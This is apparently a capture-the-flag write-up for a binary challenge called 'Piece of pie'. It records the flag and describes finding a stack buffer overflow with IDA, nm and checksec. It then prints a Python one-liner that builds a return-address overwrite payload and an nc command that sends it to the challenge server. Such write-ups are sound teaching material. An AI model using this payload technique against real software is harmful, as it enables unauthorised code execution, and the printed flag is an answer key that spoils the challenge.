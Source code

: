 # Piece of pie

Flag: CNS_CTF{0398cc2fb77e03bc2878cf981731508e}

Tools: [`ida`, `nm`, `nc`, `python`, `file`, `checksec`]

Description:
First I ran the program and so it does a Segmentation Fault when the input is too big.
This hinted to a buffer overflow.
I opened the file in IDA and found that there was a 32 byte overflow and a function that did a `system` call.
Next I just checked the `checksec` output and found that the binary had no stack protection.
Finally I got the address of the function with `nm` and built a payload after checking that the file was on 64-bit.
The payload below worked, I connected to the server and got the flag.


Command:
```bash
    python3 -c 'print("A" * 32 + "B" * 8 + "\x56\x06\x40\x00\x00\x00\x00\x00")' > payload
```

To get the flag:
```bash
    cat payload - | nc 141.85.224.106 31339
```

